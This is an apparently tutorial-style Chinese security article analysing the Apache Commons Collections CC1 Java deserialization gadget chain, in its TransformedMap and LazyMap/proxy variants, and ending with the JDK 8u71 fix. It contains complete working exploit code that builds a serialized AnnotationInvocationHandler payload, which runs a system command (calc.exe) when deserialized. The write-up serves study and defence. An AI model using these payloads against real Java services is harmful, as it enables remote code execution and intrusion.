# Java 反序列化：Apache Commons Collections CC1 利用链深度解析-先知社区

> **来源**: https://xz.aliyun.com/news/18291  
> **文章ID**: 18291

---

## Commons Clollections

Commons Collection是Apache软件基金会的一个开源项目，它为 Java 的集合框架提供了一系列额外的集合类和算法。这些类和算法在 Java 的标准集合框架的基础上进行了扩展，使得开发者在处理集合数据时可以更加灵活和高效。Commons Collections 提供了各种强大的集合接口和实现，如有序集合、队列、堆等，以及一些高级算法，如过滤、转换等，并广泛运用于Java开发中。

## 环境搭建

### 下载配置jdk-8u65

下载地址：<https://www.oracle.com/cn/java/technologies/javase/javase8-archive-downloads.html#license-lightbox>




下载好后直接双击安装，因为后期会分析其他cc链，其对应jdk的版本也不同，所以尽量将下载的jdk放在一个目录下。

然后将下载后的jdk配置到IDEA里：

```
左上角file->Project Structure->SDK
```



### 配置maven依赖

添加jdk后需要配置maven依赖下载CommonsCollections3.2.1版本

先创建一个maven项目：  


pom.xml文件写入：

```
<dependencies>
<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->
<dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.2.1</version>
</dependency>
</dependencies>
```



### 下载相应源码

由于jdk自带的包里面有些文件是反编译的.class文件，我们没办法清楚的看懂源码，为了方便调试，所以需要将他们转变为.java文件，所以需要安装相应源码：

**下载地址**:<https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4>



点击左下角zip下载

下载后解压当前压缩包，将openJDK中的/src/share/classes下的sun文件夹拷贝到jdk下的src文件夹中去。然后src文件夹添加到IDEA源路径中：  


## 相关类和接口

### TransformedMap

用于对Java标准数据结构Map做一个修饰。被修饰过的Map，在添加新数据时，将执行一个回调。

```
Map OuterMap=TransformedMap.decorate(innerMap, keyTransformer, valueTransformer);
```

innerMap是被修饰的Map,OuterMap是修饰后的Map。而keyTransformer是处理新元素key的回调，valuetransformer是处理新元素value的回调。





### Transformer

一个接口，实现一个transform方法：



### ConstantTransformer

实现Transformer接口的一个类：



重写了tranform方法，该方法传入一个对象，最后返回这个对象。

### InvokerTransformer

实现Transformer接口的一个类：



同样重写了transform方法，该方法通过调用反射：

```
Class cls = input.getClass();
Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
return method.invoke(input, this.iArgs);
```

可实现执行任何方法

### ChainedTransformer

实现Transformer接口的一个类：




也实现了transform方法重写，它会遍历iTransformers变量中的所有Transformer对象，并执行该对象中重写的transform方法，参数为object，并将结果赋值给object。

### InstantiateTransformer

实现Transformer接口的一个类：



重写了transform方法，通过反射调用传入对象的构造方法实例化对象，3.2.2之后启用序列化也需要属性Dproperty=true，4.1之后禁止用于反序列化

## CC1分析

在找链子时我们往往都是通过看那个类中的方法能够调用危险方法，然后依次向上回溯，直到找到**重写了readObject方法**的类，且该类继承了序列化接口。那么我们在向上回溯中所调用的方法连接起来就是一条链子，而这个过程就是Java漏洞找链子的过程。这是一个倒推的过程，终点是我们的漏洞利用点，起点是反序列化入口readObject方法。

### TransformedMap链分析

CC1链中源头其实就是Commons Collections库中Transformer接口的transform方法。


然后寻找继承了该接口的类：



可以看到很多，其中在InvokerTransformer类中我们可以发现它重写的transform方法可以执行任意方法：


通过反射来调用任意方法执行：

```
Class cls = input.getClass();
Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
return method.invoke(input, this.iArgs);
```

那么我们就可构造恶意方法：

```
常规反射:
Class cls=Class.forName("java.lang.Runtime");
Method m= cls.getMethod("exec", String.class);
m.invoke(cls.getMethod("getRuntime").invoke(cls),"calc.exe");

transform方法:
public class CC1 {
    public static void main(String[] args) throws Exception {
        InvokerTransformer in=new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        in.transform(Runtime.getRuntime());
    }
}
```



成功弹出计算机，那么现在利用点找到了，只需要依次向上回溯找入口readObject了

所以现在我们需要找到哪些地方调用了transform方法，在TransformedMap类的checkSetValue方法中：



正好调用了transform方法，而且valueTransformer对象正好是我们可控的：



但有个问题是TransformedMap构造方法和checkSetValue方法是protected类型的，外部不能直接调用，所以我们需要找个方法获取该实例，恰好在上面发现了decorate静态方法：



该方法刚好可以实例化TransformedMap类，所以只需要调用这个方法就可以得到TransformedMap实例：

```
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
invokerTransformer.transform(Runtime.getRuntime());
HashMap<Object,Object> hashMap=new HashMap();
Map<Object,Object> transformedMap=TransformedMap.decorate(hashMap,null, invokerTransformer);
```

现在我们valueTransformer已经带入了invokerTransformer，所以只需要找到能够调用checkSetValue方法的方法就能够执行`invokerTransformer.tranform()`

全局搜索checkSetValue：



只有AbstractInputCheckedMapDecorator类的setValue方法调用了checkSetValue：




这段代码中entry是Map.Entry的一个键值对 (Key-Value Pair) 对象，Map.Entry接口代表的是Map中的一个键值对，它定义了一种在Map中遍历和操作键值对的标准方式：



由于MapEntry继承自AbstractMapEntryDecorator类



而该类同样有setValue方法，并且引入了Map.Entry接口，所以我们可以通过Map遍历来调用setValue方法，从而调用checkSetValue方法：

```
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
HashMap<Object,Object> hashMap=new HashMap();
Map<Object,Object> transformedMap=TransformedMap.decorate(hashMap,null, invokerTransformer);
hashMap.put("b1uel0n3","b1uel0n3");  //设置键值对，方便遍历，也可以不加
for(Map.Entry entry:transformedMap.entrySet())
    entry.setValue(Runtime.getRuntime());   //遍历Map，并将Runtime.getRuntime()对象传入setValue方法
}
```

> Map的entrySet()方法返回一个实现Map.Entry接口的对象集合。



成功弹计算机。

简单梳理一下，就是我们利用**TransformedMap**类中的**decorate**方法创建了一个**TransformedMap**实例，而**TransformedMap**类里的**checkSetValue**方法能够调用**InvokerTransformer**类中的**transform**方法来执行我们的恶意命令。但**TransformedMap**类里的**checkSetValue**方法是protected类型不能直接调用，所以需要Map遍历间接调用，在进行Map遍历时，会执行TransformedMap的setValue方法，而TransformedMap本身是没有重写setValue方法的，但它继承自**AbstractInputCheckedMapDecorator**类，而该类中的**MapEntry**副类重写了**setValue**方法，所以会执行该方法里面的**checkSetValue**方法从而形成闭环。

接下来我们只需要找到一个存在readObject入口能代替Map遍历的效果来调用setValue方法的类，并且该类能够被序列化就大功告成了。于是我们直接搜索setValue看哪些方法调用了它，找到**AnnotationInvocationHandler**类，它是 Java 内部用于处理注解动态代理的核心类：



```
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
    String name = memberValue.getKey();
    Class<?> memberType = memberTypes.get(name);
    if (memberType != null) {
        Object value = memberValue.getValue();
        if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
            memberValue.setValue(
                new AnnotationTypeMismatchExceptionProxy(
                    value.getClass() + "[" + value + "]"
                ).setMember(
                    annotationType.members().get(name)
                )
            );
        }
    }
}
```

这段代码的逻辑就是进行Map遍历，返回memberValues的所有键值对，`String name = memberValue.getKey();`语句和`Object value = memberValue.getValue();`语句用于获取键值对。而这里的setValue创建了一个异常代理对象，`annotationType.members()`获取注解类型的所有成员方法，`get(name)`根据成员名获取对应的 `Method` 对象。

再看下merberType、merberValues参数是否可控，找到构造器：



该构造器接受两个参数，一个type，类型是`Class<? extends Annotation>`，即需要是注解类型；另一个是memberValues，Map类型，且都是可控的，那么**merberValues**就可以传入我们之前的**transformedMap**类，再通过**readObject**调用**setValue**方法。

但存在一个问题，就是可以看到AnnotationInvocationHandler构造器前面是没有public的，即这个类只能在sun.reflect.annotation本包下调用，外部是不能直接调用的，但我们可以通过反射获取该构造器：

```
Class cls=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
constructor.newInstance(Retention.class,transformedMap);
```

注解类可以在java.lang.annotation包下找到，有@符号的就是注解类：



修改poc：

```
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import java.lang.Runtime;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

public class CC1 {
    public static void main(String[] args) throws Exception {
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
//        invokerTransformer.transform(Runtime.getRuntime());
        
        HashMap<Object,Object> hashMap=new HashMap();
        Map<Object,Object> transformedMap=TransformedMap.decorate(hashMap,null, invokerTransformer);
        hashMap.put("b1uel0n3","b1uel0n3");
//        for(Map.Entry entry:transformedMap.entrySet()){
//             entry.setValue(Runtime.getRuntime());
//        }
        
        Class cls=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        constructor.newInstance(Retention.class,transformedMap);
    }
}
```

但这链子就已经完了，我们加上反序列化来调用readObject方法：

```
import java.io.*;
import java.lang.annotation.Annotation;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;
import java.lang.Runtime;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

public class CC1 {
    public static void main(String[] args) throws Exception {
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
//        invokerTransformer.transform(Runtime.getRuntime());

        HashMap<Object,Object> hashMap=new HashMap();
        Map<Object,Object> transformedMap=TransformedMap.decorate(hashMap,null, invokerTransformer);
        hashMap.put("b1uel0n3","b1uel0n3");
//        for(Map.Entry entry:transformedMap.entrySet()){
//             entry.setValue(Runtime.getRuntime());
//        }

        Class cls=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o=constructor.newInstance(Retention.class,transformedMap);

        serialize(o);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
    }
}
```

然而并没有弹出计算器，分析了一下发现之前我们都是将`Runtime.getRuntime()`传入setValue方法来执行`invokerTransformer.transform(Runtime.getRuntime());`，但上面的代码并没有传入也传入不了`Runtime.getRuntime()`。所以需要transformedMap执行checksetValue方法时本身就不需要传入`Runtime.getRuntime()`就能实现。

而执行exec方法可以通过执行多次InvokerTransformer.transform()方法实现：

```
常规：
Class cls=Class.forName("java.lang.Runtime");
Method m = cls.getMethod("getRuntime");
Object runtime = m.invoke(cls);
Method exec = cls.getMethod("exec", String.class);
exec.invoke(runtime,"calc.exe");

InvokerTransformer.transform()实现：    
ConstantTransformer constant=new ConstantTransformer(Runtime.class);
InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});   
InvokerTransformer getRuntime = new InvokerTransformer("getMethod", new Class[]{String.class,
Class[].class}, new Object[]{"getRuntime", new Class[0]});  
InvokerTransformer invoke= new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});

Object cls=constant.transform(Runtime.class);             //获得Runtime.class对象，传入的对象可以是任何Object
Object method=getRuntime.transform(cls);  //获取getRuntime方法，执行getMethod("getRuntime")
Object runtime=invoke.transform(method);                  //调用getRuntime方法，执行Method.invoke(null, null)
exec.transform(runtime);                                  //调用exec方法，弹计算机
```

而Runtime对象的获得通过ConstantTransformer类重写的transform方法得到，该方法能够返回传入的对象：




所以我们需要找到一个继承了transformer接口的类，里面重写的transform方法能够执行多个其他类的transform方法，这不，经过不懈搜索，发现恰好有一个类正好满足，就是**ChainedTransformer**类：



可以看到，它重写的transform方法会遍历iTransformers变量中的所有Transformer对象，并执行该对象中重写的transform方法，参数为object，并将结果赋值给object，正好符合我们的需求。而且通过它的构造方法可以看到iTransformers变量是我们可控的，那么上面exec的实现就可以写成：

```
ConstantTransformer constant=new ConstantTransformer(Runtime.class);
InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
InvokerTransformer getRuntime = new InvokerTransformer("getMethod", new Class[]{String.class,
Class[].class}, new Object[]{"getRuntime", new Class[0]});
InvokerTransformer invoke= new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});
//Object cls=constant.transform(Runtime.class); 
//Object method=getRuntime.transform(Runtime.class);
//Object runtime=invoke.transform(method);
//exec.transform(method);

Transformer[] transformers = new Transformer[]{constant, getRuntime, invoke, exec};
ChainedTransformer chained = new ChainedTransformer(transformers);
chained.transform(Object.class);
```

修改下poc：

```
import java.io.*;
import java.lang.annotation.Annotation;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;
import java.lang.Runtime;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

public class CC1 {
    public static void main(String[] args) throws Exception {
        ConstantTransformer constant=new ConstantTransformer(Runtime.class);
        InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        InvokerTransformer getRuntime = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]});
        InvokerTransformer invoke= new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});
//      Object cls=constant.transform(Runtime.class);
//      Object method=getRuntime.transform(Runtime.class);
//      Object runtime=invoke.transform(method);
//      exec.transform(method);

        Transformer[] transformers = new Transformer[]{constant, getRuntime, invoke, exec};
        ChainedTransformer chained = new ChainedTransformer(transformers);

        HashMap<Object,Object> hashMap=new HashMap();
        Map<Object,Object> transformedMap=TransformedMap.decorate(hashMap,null, chained);
        hashMap.put("b1uel0n3","b1uel0n3");
//        for(Map.Entry entry:transformedMap.entrySet()){
//             entry.setValue(Runtime.getRuntime());
//        }

        Class cls=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o=constructor.newInstance(Retention.class,transformedMap);

        serialize(o);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
    }
}
```

依旧没弹计算机，在readObject的setValue处下个断点:  


结果发现根本没有执行setValue方法，于是我看了下执行的条件：

```
memberType != null
!(memberType.isInstance(value) ||value instanceof ExceptionProxy)
```


memeberType是注解接口中定义的所有成员（方法）及其返回类型的映射，第一点`memberType != null`，即当前处理的成员名称必须在原注解接口中有定义，所以我们添加的键值对键名应该是Retention注解类中所定义的：



```
hashMap.put("value","b1uel0n3");
```

第二点就是检查值是否匹配注解成员声明的类型和检查是否为注解解析失败的占位符，这些都是满足的

完整CC1链：

```
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import java.lang.Runtime;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

public class CC1 {
    public static void main(String[] args) throws Exception {
        ConstantTransformer constant=new ConstantTransformer(Runtime.class);
        InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        InvokerTransformer getRuntime = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]});
        InvokerTransformer invoke= new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});

        Transformer[] transformers = new Transformer[]{constant, getRuntime, invoke, exec};
        ChainedTransformer chained = new ChainedTransformer(transformers);

        HashMap<Object,Object> hashMap=new HashMap<>();
        Map<Object,Object> transformedMap=TransformedMap.decorate(hashMap,null, chained);
        hashMap.put("value","b1uel0n3");

        Class<?> cls= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o=constructor.newInstance(Retention.class,transformedMap);

        serialize(o);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
        oos.close();
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
        in.close();
    }
}
```



成功弹计算机

完整利用链：

```
ObjectInputStream -> readObject()
AnnotationInvocationHandler -> readObject()
AbstractInputCheckedMapDecorator -> setValue()
TransformedMap -> checkSetValue()
ChainedTransformer -> transform()
ConstantTransformer -> transform()
InvokerTransformer -> transform()
    Class.getMethod()
InvokerTransformer -> transform()
    Runtime.getRuntime()
InvokerTransformer -> transform()
    Runtime.exec()
```

### LazyMap链分析

LazyMap与TransformedMap类似，都来自commons collections库，并且继承AbstractMapDecorator类：



TransformedMap是继承AbstractInputCheckedMapDecorator，AbstractInputCheckedMapDecorator又继承AbstractMapDecorator：  


根据[ysoserial](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java)的调用链可以看到LazyMap与TransformedMap调用链主要在于触发ChainedTransformer的Transform方法不同



LazyMap链是通过**LazyMap.get()**调用**ChainedTransformer.Transform()**的：  


该方法首先会检查Map中是否不存在传入的key，若key不存在，则会调用`Object value = factory.transform(key);`创建新值，然后将新生成的`value`与`key`关联并存入Map。

这里我们看下factory是否可控：  


可以看到factory是可控的，我们可以通过decorate方法传入，那么：

```
ConstantTransformer constant=new ConstantTransformer(Runtime.class);
InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
InvokerTransformer getRuntime = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]});
InvokerTransformer invoke= new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});

Transformer[] transformers = new Transformer[]{constant, getRuntime, invoke, exec};
ChainedTransformer chained = new ChainedTransformer(transformers);

HashMap<Object,Object> hashMap=new HashMap<>();
Map<Object,Object> Lazymap= LazyMap.decorate(hashMap, chained);
```

现在将chained传入了，然后我们查找调用了**LazyMap.get()**的方法，找到了**AnnotationInvocationHandler.invoke()**方法：



该方法执行了`Object result = memberValues.get(member);`，memberValues是可控的，就是我们要传入的LazyMap对象。

但要如何调用invoke方法呢？

其实这里就涉及到动态代理的知识，需要用到`Java.lang.reflect.Proxy`类和`InvocationHandler`接口

`InvocationHandler`接口：



该接口负责提供调用代理的操作，而**AnnotationInvocationHandler**正是继承了该接口，重写了invoke方法，其中`proxy`为动态生成的代理对象(不是被代理的实际对象)，`method`表示调用的方法名(通过反射获取的Method对象)，`args`为调用方法的参数数组

而在`Java.lang.reflect.Proxy`类中提供了一个静态方法用于得到代理对象：

```
public static Object newProxyInstance(ClassLoader loader,Class<?>[] interfaces,InvocationHandler handler)
```

> loader指类加载器(通常使用目标接口的类加载器，用于加载动态生成的代理类)
>
> interfaces指代理类要实现的接口列表
>
> handler指方法调用的处理器

当调用**代理对象**的方法时就会自动触发invoke方法

所以我们可以将**AnnotationInvocationHandler**对象传入**newProxyInstance**:

```
Class<?> cls= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = cls.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler= (InvocationHandler)constructor.newInstance(Retention.class, Lazymap);
Map proxy= (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
```

再将生成的proxy代理类作为Map参数传入到**AnnotationInvocationHandler**实例中:

```
Object o=constructor.newInstance(Retention.class, proxy);
```

这样在反序列化时会调用**raedObject**方法，readObject方法中存在**memberValues.entrySet()**，由于memberValues是我们传入的代理类，即调用了代理对象，就会自动触发**AnnotationInvocationHandler.invoke()**方法，而handler中传入的memberValues是Lazymap，就会调用**LazyMap.get()**方法从而触发**ChainedTransformer.Transform()**方法。可能有点绕，但静下来想一想还是能想清楚的。

完整poc:

```
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Collections;
import java.util.HashMap;
import java.util.Map;
import java.lang.Runtime;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

public class CC1 {
    public static void main(String[] args) throws Exception {
        ConstantTransformer constant=new ConstantTransformer(Runtime.class);
        InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        InvokerTransformer getRuntime = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]});
        InvokerTransformer invoke= new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});

        Transformer[] transformers = new Transformer[]{constant, getRuntime, invoke, exec};
        ChainedTransformer chained = new ChainedTransformer(transformers);

        HashMap hashMap=new HashMap<>();
        Map Lazymap= LazyMap.decorate(hashMap, chained);
        hashMap.put("value","b1uel0n3");  //可不需要，因为不用去触发memberValues.getValue()方法

        Class<?> cls= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler= (InvocationHandler)constructor.newInstance(Retention.class, Lazymap);
        Map proxy= (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
        Object o=constructor.newInstance(Retention.class,proxy);

        serialize(o);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
        oos.close();
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
        in.close();
    }
}
```

成功弹出计算机



完整利用链：

```
ObjectInputStream -> readObject()
AnnotationInvocationHandler -> readObject()
Map(proxy) -> entrySet()
AnnotationInvocationHandler -> invoke()
LazyMap -> get()
ChainedTransformer -> transform()
ConstantTransformer -> transform()
InvokerTransformer -> transform()
    Class.getMethod()
InvokerTransformer -> transform()
    Runtime.getRuntime()
InvokerTransformer -> transform()
    Runtime.exec()
```

## 修复

在Java 8u71以后，官方修改了sun.reflect.annotation.AnnotationInvocationHandler的readObject方法。

改动后将不再直接使用反序列化得到的Map对象，而是新建了一个LinkedHashMap对象，并将原来的键值添加进去。所以，后续对Map的操作都是基于这个新的LinkedHashMap对象，而原来我们精心构造的Map不再执行set或put操作，也就不会触发RCE了。

## 参考

<https://1dayluo.github.io/posts/history/cc1-lian-xue-xi-bi-ji>

<https://www.cnblogs.com/wobuchifanqie/p/9991342.html>

<https://xz.aliyun.com/news/12115>

<https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java>

<https://nivi4.notion.site/Java-CommonCollections1-60b5c62c3bae4db3bba34928e02b653c>

<https://www.cnblogs.com/1vxyz/p/17284838.html>
